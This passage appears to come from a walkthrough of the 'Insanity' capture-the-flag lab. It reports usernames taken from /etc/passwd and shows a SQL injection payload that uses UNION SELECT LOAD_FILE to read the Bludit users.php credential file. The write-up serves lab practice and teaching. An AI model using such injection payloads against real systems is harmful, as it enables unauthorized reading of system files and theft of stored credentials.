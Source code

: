 ![55d2ac2e38710883bb7b7bbb5ebdac9e.png](/images/vh-insanity1/89157db7dd3643cba648d249d45f95cd.png)

Looking at `/etc/passwd`, we see that we have four users that we might be able to move to later on - `admin`, `monitor`, `elliot` and `nicholas`. 

Let's try reading the Bludit users file next.

```sql
a" UNION SELECT LOAD_FILE('/var/www/html/news/bl-content/databases/users.php'),2,3,4 as result -- -
```

![f13615830ab799c2fa21cd63d7533516.png](/images/vh-insanity1/a176427a84f0467d950e7b81425c3d52.png)
